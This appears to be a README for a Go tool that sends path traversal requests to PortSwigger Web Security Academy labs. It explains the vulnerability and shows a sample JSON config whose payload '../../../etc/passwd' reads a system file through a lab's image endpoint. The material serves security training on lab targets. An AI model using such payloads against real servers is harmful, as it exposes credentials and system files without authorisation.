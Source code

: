 ## path traversal?

Path traversal is also known as directory traversal. These vulnerabilities can 
enable an attacker to read arbitrary files on the server that is running an application. 
This might include:

1. Application code and data.
2. Credentials for back-end systems.
3. Sensitive operating system files.

** 
In some cases, an attacker might be able to write to arbitrary files on the server, allowing 
them to modify application data or behavior, and ultimately take full control of the server.

### usage

Here is how to use this program.

```bash
    go run main.go payload.json
```

Here is the syntax of the `payload.json` file.

```json
{
  "host": "https://0000000000000.web-security-academy.net/image",
  "payload": "../../../etc/passwd",
  "session": "sdsedfdfdsfdsfsd",
  "method": "GET"
}
```

Get session from the browser once the lab is launched.
Get host from the lab link once you launch it and remember to append `/image` since thats the endpoint you will be exploiting
Payload is the file path
All lab endpoints use `GET` requests.
